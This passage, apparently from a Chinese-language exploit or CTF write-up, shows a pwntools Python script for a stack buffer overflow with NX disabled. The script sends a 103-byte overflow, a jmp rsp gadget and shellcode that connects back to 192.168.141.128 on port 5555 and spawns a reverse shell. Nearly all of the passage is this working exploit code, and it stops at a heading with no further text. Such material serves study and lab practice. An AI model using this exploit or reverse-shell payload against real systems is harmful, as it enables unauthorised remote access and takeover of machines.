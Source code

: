 ### shellcode版本（关闭NX）

shellcode解决方式，要关闭NX，效果是反弹shell到192.168.141.128主机的5555端口：

```python
#!/usr/bin/python

from pwn import *

context.arch = 'amd64'
context.os = 'linux'

rp = remote("172.17.0.2", 15001)

overflow_distance = 103     # 实际溢出长度为103
jmp_rsp = 0x40900d

# 反弹shell到远程5555端口
shellcode = asm(shellcraft.connect("192.168.141.128", 5555) + shellcraft.dupsh())
payload = b'1' * overflow_distance + p64(jmp_rsp) + shellcode 

packet = b'3' + str(len(payload) + 1).encode() + b'1' + payload
rp.sendline(packet)
```

shellcode反弹shell：
